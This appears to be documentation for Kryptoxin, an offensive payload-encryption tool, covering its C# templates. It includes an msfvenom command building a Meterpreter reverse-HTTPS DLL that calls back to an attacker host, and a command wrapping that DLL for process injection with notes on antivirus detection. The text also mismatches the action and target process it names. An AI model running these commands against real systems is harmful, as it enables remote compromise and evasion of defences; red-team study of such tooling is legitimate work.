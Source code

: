 # C\# (.NET)

Kryptoxin supports the [C# programming language](https://learn.microsoft.com/en-us/dotnet/csharp/) as an output language for templates.

## Overview

The C# language is very valuable in the security field, as it provides access to the .NET framework capabilities. Managed programs and DLLs can be written to perform system API calls while granting access to more sophisticated functions such as AES decryption.

All templates shipped with Kryptoxin can be directly pasted into [Visual Studio](https://visualstudio.microsoft.com) (we recommended versions >= `2022`) and be compiled without modification.

## Print Program (`print`)

This basic console program simply prints the UTF-8 encoded text encrypted by Kryptoxin. It uses the `System.Security.Cryptography` .NET class, which is widely supported by current Windows hosts.

``` sh
python -m kryptoxin encrypt -k s3cret --random-iv --random-salt \
--alg AES --key_size 192 --iter 5000 --lang csharp --action print
```

``` {.c# .no-copy}
using System.Security.Cryptography;

class Program // (1)!
{

    [...]
  
    static void Main(string[] args) // (2)!
    {
        [...]
    }
}
```

1. The class generated must be imported in a `C# .NET Console Program` project.
2. The main entry point is `Main()`, the latter will call the decoding and decryption routines.

## DLL Process Injection (`load-library`)

This .NET console program injects a DLL such as those generated by the metasploit's msfvenom utility into the `explorer.exe` process.

??? warning "The input library must be crafted with a special DllMain() function"
    The dynamic-linked library passed in input must be specially crafted with a `DllMain()` function. The process injection method
    in this program uses the system's `LoadLibraryA()` Win32 API function, which call the above function when loading a library.

??? info "The .DLL file is written to the target's disk unencrypted"
    This C# console program uses the `LoadLibraryA()` Windows API function, which require a library file stored on the disk.
    Therefore it will write the decrypted DLL onto the host's hard disk, allowing for potential anti-virus detection.

The example below encrypt the `msf.dll` generated by msfvenom and output a C# console program source code that can be readily pasted into a Microsoft Visual Studio project.

``` sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=w.x.y.z LPORT=443 \
EXITFUNC=thread -f dll -o msf.dll
```

``` sh
python -m kryptoxin encrypt -k 123456 --random-iv --random-salt \
--lang csharp --action load-dll --in msf.dll --dllname=aton32.dll \
--process=notepad.exe
```
